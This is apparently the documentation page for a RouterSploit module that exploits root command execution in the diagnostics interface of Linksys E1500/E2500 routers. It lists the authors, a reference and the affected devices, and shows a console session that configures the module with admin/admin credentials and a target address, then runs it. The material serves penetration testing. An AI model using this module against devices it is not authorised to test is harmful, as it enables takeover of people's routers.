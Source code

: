 # Linksys E1500/E2500

## Description
Module exploits remote command execution in Linksys E1500/E2500 devices.Diagnostics interface allows executing root privileged shell commands is available on dedicated web pages on the device.

## Authors
* Michael Messner # vulnerability discovery
* Esteban Rodriguez (n00py) # routersploit module

## References
* [https://www.exploit-db.com/exploits/24475/](https://www.exploit-db.com/exploits/24475/)

## Vulnerable devices
* Linksys E1500/E2500

## Usage
```
rsf > use exploits/linksys/1500_2500_rce
rsf (Linksys E1500/E2500) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   username     admin                Username to login with
   password     admin                Password to login with


rsf (Linksys E1500/E2500) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Linksys E1500/E2500) > run
[*] Running module...
```
